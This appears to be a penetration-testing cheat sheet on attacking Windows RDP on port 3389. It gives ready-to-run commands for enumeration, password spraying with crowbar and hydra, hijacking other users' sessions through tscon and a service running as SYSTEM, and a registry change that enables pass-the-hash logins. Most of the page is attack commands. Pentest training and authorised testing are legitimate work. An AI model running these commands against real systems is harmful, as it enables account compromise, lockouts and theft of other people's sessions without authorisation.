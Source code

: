 # RDP \[3389]

## Enumeration

```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

## Brute force

{% hint style="danger" %}
**you could lock accounts if the failed attempts are exceeded.**
{% endhint %}

## **Password Spraying**

<pre><code><strong># crowbar
</strong><strong>crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
</strong># hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
</code></pre>

> Password spraying is a form of brute force attack where you use one password and iterate through all user names. The account could still get locked if not careful.

## Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```
tscon <ID> /dest:<SESSIONNAME>
```

**Access to the selected session as local administrator priv**

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
# create the service which will be ran as SYSTEM priv.
net start sessionhijack
# start the service
```

{% hint style="warning" %}
This no longer works on Server 2019
{% endhint %}

## **Service Interaction**

```shell-session
xfreerdp /v:<target-IP> /u:<user> /p:<pass>
rdesktop <target-IP> -u <user> -p <pass>
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption><p>This error could occur during /pth if DisableRestrictedAdmin is not set</p></figcaption></figure>

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

[CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
